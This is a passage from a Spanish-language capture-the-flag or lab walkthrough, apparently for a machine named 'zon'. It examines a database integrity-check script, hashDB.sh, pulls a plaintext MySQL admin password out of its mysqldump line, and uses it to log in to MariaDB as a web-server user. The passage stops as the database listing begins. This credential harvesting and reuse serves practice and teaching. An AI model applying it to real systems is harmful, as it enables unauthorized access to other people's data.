 Vemos que hay varios ficheros, pero uno de ellos es el que destaca. Estamos hablando del fichero **`hashDB.sh`**. Vamos a ver de qué se trata:

```shell
#!/bin/bash

# script that checks the database's integrity every minute

dump=/dev/shm/dump.sql
log=/var/log/db_integrity_check.log
true > "${log}"

/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}"
/usr/bin/sed -i '$d' "${dump}"

hash="29d8e6b76aab0254f7fe439a6a5d2fba64270dde087e6dfab57fa57f6749858a"
check_hash=$(sha256sum "${dump}" | awk '{print $1}')

if [[ "${hash}" != "${check_hash}" ]] ; then
  /usr/bin/wall "Alert ! Database hacked !"
  /usr/bin/du -sh /var/lib/mysql >> "${log}"
  /usr/bin/vmstat 1 3 >> "${log}"
else
  /usr/bin/sync && /usr/bin/echo 3 > /proc/sys/vm/drop_caches
  /usr/bin/echo "$(date) : Integrity check completed for ${dump}" >> "${log}"
fi
```

Como pone justo en el comentario, este **`script`** se encarga de mirar la integridad de la base de datos cada minuto comparándola con un **`hash`**. Si nos fijamos podemos ver que se está ejecutando un comando con la utilidad **`MySQLDump`**:

```shell
/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}"
```

A esta utilidad se le están pasando unas credenciales en texto plano. Dichas credenciales sirven para iniciar **`MySQL`** como el usuario **`admin`**:

```shell
www-data@zon:/var/www/html$ mysql -u admin -p
Enter password: udgrJbFc6Av#U3
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 31
Server version: 10.11.4-MariaDB-1~deb12u1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Vamos qué bases de datos hay con el comando `SHOW DATABASES`:
